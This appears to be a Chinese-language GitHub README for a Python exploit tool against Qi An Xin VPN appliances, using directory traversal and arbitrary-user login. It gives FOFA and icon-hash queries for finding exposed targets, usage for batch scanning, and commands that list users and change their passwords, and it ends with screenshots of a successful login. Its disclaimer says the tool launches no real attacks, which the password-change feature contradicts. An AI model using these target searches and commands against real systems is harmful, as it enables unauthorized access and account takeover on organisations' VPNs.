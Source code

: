 ## 奇安信VPN目录遍历+任意用户登录漏
### 免责声明
本工具仅面向合法授权的企业安全建设行为，如您需要测试本工具的可用性，请自行搭建靶机环境。
为避免被恶意使用，本项目所有收录的poc均为漏洞的理论判断，不存在漏洞利用过程，不会对目标发起真实攻击和漏洞利用。
在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。请勿对非授权目标进行扫描。
如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。
在安装并使用本工具前，请您务必审慎阅读、充分理解各条款内容，限制、免责条款或者其他涉及您重大权益的条款可能会以加粗、加下划线等形式提示您重点注意。 除非您已充分阅读、完全理解并接受本协议所有条款，否则，请您不要安装并使用本工具。您的使用行为或者您以其他任何明示或者默示方式表示接受本协议的，即视为您已阅读并同意本协议的约束。
### 特点
对 [利刃信安攻防实验室](https://mp.weixin.qq.com/s?__biz=MzU1Mjk3MDY1OA==&mid=2247504434&idx=1&sn=3d4c136cd108906a2cae0b1b6062013b&chksm=fbfb62ffcc8cebe9131cace98f21764ffb32599f033002d779a43ad9bc94b089f3f9a9e07dd2#rd) 师傅分享的工具进行二开：   
```
1.增强漏洞的发现能力
2.增加批量扫描模块
3.输出结果导出为文本，使结果更清晰
  使用域名作为文本名称，如果是批量扫描，每个目标有单独的文本进行展示
```
### 查找
    fofa:
        app="奇安信-VPN"

    其他测绘:
        web.icon="84c7515970de0036f3719afb8c647ed6"
### 脚本利用
#### 运行
使用`python QianxinVPN_Any_login.py --help`查看使用方法
```
Usage: QianxinVPN_Any_login.py [OPTIONS]

Options:
  -t, --target TEXT    Target
  -ts, --targets TEXT  multiple targets(-ts Specify your target file)
  -g, --group INTEGER  User Group
  -u, --user TEXT      Username(default user：anonymous)
  -p, --pwd TEXT       Password(default password：abcdefg#123A)
  -lu, --list-user
  -cp, --change-pwd
  --proxy TEXT
  --help               Show this message and exit.

```
##### 基础用法
```
# 单个目标(-t)检测列出用户(-lu)和修改密码(-cp)
python3 QianxinVPN_Any_login.py -t https://x.xxx.xxx.cn/ -u anonymous -lu -cp

# 批量检测目标(-ts)列出用户(-lu)和修改密码(-cp)    -ts指定你的目标文本
python3 QianxinVPN_Any_login.py -ts targets.txt -u anonymous -lu -cp
```
### 演示
#### 对指定目标进行检测
在cmd中输出简单的检测结果  

![img_4.png](..%2Fimages%2Fimg_4.png)  

同时执行的目录下会创建一个目标名称.txt的文档，里面记录者详细的测试数据，例如：用户，密码  

![img_5.png](..%2Fimages%2Fimg_5.png)  

像这样  

![img_6.png](..%2Fimages%2Fimg_6.png)  

#### 对多个目标进行检测
创建目标文件，写入你的多个目标  

![img_7.png](..%2Fimages%2Fimg_7.png)  

执行检测命令，在cmd中对每个目标都会输出简单的检测结果  

![img_8.png](..%2Fimages%2Fimg_8.png)  

同样在执行目录下有每个目标的详细检测结果  

![img_9.png](..%2Fimages%2Fimg_9.png)  

![img_10.png](..%2Fimages%2Fimg_10.png)  


### 让我们来看看成果
![img_2.png](../images/img_2.png)  

登录成功  

![img_3.png](../images/img_3.png)  

### 致谢
感谢 [利刃信安攻防实验室](https://mp.weixin.qq.com/s?__biz=MzU1Mjk3MDY1OA==&mid=2247504434&idx=1&sn=3d4c136cd108906a2cae0b1b6062013b&chksm=fbfb62ffcc8cebe9131cace98f21764ffb32599f033002d779a43ad9bc94b089f3f9a9e07dd2#rd) 师傅的分享
### 建议和问题
如果您有任何建议和问题，请创建lssues来联系我
